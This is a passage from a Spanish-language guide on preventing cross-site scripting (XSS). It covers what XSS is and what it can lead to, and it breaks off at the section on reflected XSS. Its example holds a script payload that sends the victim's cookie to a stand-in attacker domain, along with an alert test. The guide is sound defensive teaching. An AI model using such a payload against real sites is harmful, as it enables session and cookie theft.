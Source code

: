 # 🛡️ Guía de Prevención XSS (Cross-Site Scripting)

## 📋 Índice

1. [¿Qué es XSS?](#qué-es-xss)
2. [Tipos de Ataques XSS](#tipos-de-ataques-xss)
3. [Técnicas de Prevención](#técnicas-de-prevención)
4. [Sanitización de Datos](#sanitización-de-datos)
5. [Content Security Policy (CSP)](#content-security-policy-csp)
6. [Validación de Entrada](#validación-de-entrada)
7. [Codificación de Salida](#codificación-de-salida)
8. [Herramientas y Librerías](#herramientas-y-librerías)

---

## 🎯 ¿Qué es XSS?

**Cross-Site Scripting (XSS)** es una vulnerabilidad que permite a los atacantes inyectar código malicioso en páginas web vistas por otros usuarios. Esto puede llevar a:

- Robo de cookies y sesiones
- Redireccionamiento malicioso
- Modificación del contenido de la página
- Obtención de información sensible
- Ejecución de acciones en nombre del usuario

### **Ejemplo de Ataque XSS**

```html
<!-- Entrada maliciosa del usuario -->
<script>
  document.location = 'http://malicioso.com/robar?cookie=' + document.cookie;
</script>

<!-- Si no se sanitiza, se ejecuta en el navegador -->
<div>
  Comentario:
  <script>
    alert('XSS!');
  </script>
</div>
```

---

## 🎯 Tipos de Ataques XSS

### **1. XSS Reflejado (Reflected XSS)**

El código malicioso se incluye en la URL y se refleja inmediatamente en la página.
